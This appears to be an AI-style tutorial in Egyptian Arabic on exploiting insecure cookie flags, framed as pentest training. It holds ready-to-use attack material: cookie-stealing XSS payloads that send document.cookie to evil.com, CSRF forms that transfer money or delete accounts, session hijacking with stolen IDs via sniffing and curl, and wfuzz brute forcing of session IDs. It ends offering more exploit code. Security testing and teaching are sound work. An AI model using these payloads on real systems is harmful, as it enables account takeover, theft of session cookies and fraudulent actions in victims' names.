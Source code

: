 تمام، هشرحلك القسم ده عن "استغلال إعدادات الكوكيز غير الآمنة" (Exploiting Insecure Cookie Settings) بعمق وعملي مع أكواد وأوامر، وبعد كل جزء هاديك خلاصة Pentest بالعامية المصرية، وفي الآخر هاديك سيناريوهات الاستغلال الممكنة.

---

### **1. فهم إعدادات الكوكيز غير الآمنة (Insecure Cookie Settings)**
#### **شرح عملي:**
الكوكيز هي بيانات صغيرة بيخزنها الموقع في المتصفح بتاعك عشان يتذكرك (زي الـ Session ID). لو الإعدادات بتاعتها ضعيفة، ممكن تتسرق أو تتعدل. الإعدادات المهمة هي:
- **Secure Flag:** لو مش موجود، الكوكيز بتتبعت عبر HTTP (مش مشفر).
- **HttpOnly Flag:** لو مش موجود، الكوكيز بتتسرق بـ JavaScript (زي XSS).
- **SameSite:** لو مش مضبوط، ممكن تتسرق عبر CSRF.

- **مثال:** لو الكوكيز بتتبعت عبر HTTP بدون `Secure`، المهاجم بيقدر يعترضها.

#### **كود عملي (PHP مع كوكيز غير آمنة):**
- كود يعمل كوكيز بدون حماية:
```php
<?php
setcookie("session_id", "xyz789"); # بدون Secure أو HttpOnly
session_start();
if (isset($_COOKIE['session_id']) && $_COOKIE['session_id'] == "xyz789") {
    echo "مرحباً! أنت مسجل.";
} else {
    echo "سجل دخولك!";
}
?>
```
- لو فتحت الموقع، الكوكيز هتتبعت عادي بدون تشفير.

#### **أمر عملي (فحص الكوكيز بـ curl):**
```bash
curl -I http://<IP>/
```
- لو رجعلك كوكيز في الـ Headers زي:
```
Set-Cookie: session_id=xyz789; path=/
```
- وما فيهوش `Secure` أو `HttpOnly`، يبقى غير آمن.

#### **خلاصة Pentest بالعامية:**
"لو لقيت الكوكيز بتتبعت من غير `Secure` أو `HttpOnly`، يبقى فيه عفريت! جرب تسرقها بـ Wireshark أو XSS وشوف لو بتدخلك الموقع!"

---

### **2. استغلال الكوكيز عبر اعتراضها (Cookie Interception)**
#### **شرح عملي:**
لو الكوكيز مش محمية بـ `Secure Flag` وبتتبعت عبر HTTP، المهاجم بيقدر يعترضها بسهولة باستخدام MITM (زي على شبكة Wi-Fi مفتوحة). بعد ما يسرق الـ Session ID، يستخدمه عشان يدخل بحسابك.

#### **كود عملي (اعتراض بـ Wireshark):**
- شغل Wireshark:
```bash
wireshark -i eth0 -f "port 80"
```
- لو شفت الكوكيز في طلب HTTP زي:
```
Cookie: session_id=xyz789
```
- استخدمها بـ curl:
```bash
curl -b "session_id=xyz789" "http://<IP>/dashboard"
```
- لو دخلك، يبقى استغليتها!

#### **خلاصة Pentest بالعامية:**
"لو الموقع مش HTTPS أو الكوكيز بدون `Secure`، اسمع الشبكة بـ Wireshark أو tcpdump، خد الـ Session ID وحطه في متصفحك، وهتبقى داخل الحساب في ثانية!"

---

### **3. استغلال الكوكيز عبر XSS وCSRF**
#### **شرح عملي:**
- **XSS:** لو الكوكيز مش محمية بـ `HttpOnly`، المهاجم بيحقن JavaScript يسرقها.
- **CSRF:** لو ما فيهوش `SameSite=Strict`، المهاجم بيخليك تبعت طلبات للموقع بدون ما تعرف.

#### **كود عملي (XSS لسرقة الكوكيز):**
- لو الموقع فيه ثغرة XSS، حط كود زي:
```html
<script>
fetch('http://evil.com/steal.php?cookie=' + document.cookie);
</script>
```
- لما المستخدم يفتح الصفحة، الكوكيز هتتبعت للمهاجم لو ما فيهوش `HttpOnly`.

#### **كود عملي (CSRF):**
- صفحة خبيثة تبعت طلب POST:
```html
<form action="http://<IP>/transfer" method="POST" id="form">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
</form>
<script>document.getElementById("form").submit();</script>
```
- لو الكوكيز بدون `SameSite`، الطلب هيتنفذ باسمك لو كنت مسجل.

#### **خلاصة Pentest بالعامية:**
"لو الكوكيز بدون `HttpOnly`، جرب تحقن XSS تسرقها. لو بدون `SameSite`، اعمل صفحة تبعت طلبات زي تحويل فلوس وشوف لو بتنجح من غير ما المستخدم يحس!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Missing Secure Flag:**
   - **MITM:** اعترض الكوكيز على HTTP بـ:
     ```bash
     tcpdump -i eth0 port 80 -w capture.pcap
     ```
     استخدم الـ Session ID في متصفحك:
     ```bash
     curl -b "session_id=xyz789" "http://<IP>/dashboard"
     ```

2. **Missing HttpOnly Flag:**
   - **XSS:** حقن كود يسرق الكوكيز:
     ```html
     <img src=x onerror="document.location='http://evil.com?c='+document.cookie">
     ```
     خد الـ ID وادخل بيه.

3. **Missing SameSite Attribute:**
   - **CSRF:** اعمل صفحة خبيثة تنفذ أوامر زي حذف حساب أو تحويل فلوس:
     ```html
     <iframe src="http://<IP>/delete_account" style="display:none"></iframe>
     ```
     لو نفذت، يبقى استغليتها.

4. **مشترك:**
   - **Cookie Dumping:** لو لقيت ثغرة XSS، استخدمها تطبع كل الكوكيز:
     ```html
     <script>alert(document.cookie)</script>
     ```
   - **Session Replay:** خد كوكيز قديمة وجربها لو الموقع ما بيبطلش الجلسات:
     ```bash
     curl -b "session_id=old123" "http://<IP>/dashboard"
     ```
   - **Brute Force Prediction:** لو الـ Session ID متوقع (زي `user123`)، جرب تخمنه يدوي أو بـ wfuzz:
     ```bash
     wfuzz -c -z range,100-200 -b "session_id=userFUZZ" http://<IP>/dashboard
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!